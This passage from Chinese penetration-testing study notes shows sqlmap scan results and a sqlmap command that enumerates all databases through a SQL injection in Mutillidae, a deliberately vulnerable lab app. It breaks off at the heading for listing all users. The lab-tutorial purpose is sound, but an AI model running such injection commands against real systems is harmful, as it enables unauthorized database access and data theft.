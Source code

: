 扫描结果：

![SQLInjectionSQLMAP扫描结果](../../../MarkdownImgs/安全技术/渗透测试/安全学习笔记/SQLInjectionSQLMAP扫描结果.png)



获取所有数据库：

```shell
sqlmap -u "http://192.168.19.129/mutillidae/index.php?page=user-info.php&username=sss&password=ssss&user-info-php-submit-button=View+Account+Details" --dbs
```

![SQLInjection获取所有数据库](../../../MarkdownImgs/安全技术/渗透测试/安全学习笔记/SQLInjection获取所有数据库.png)



获取所有用户：
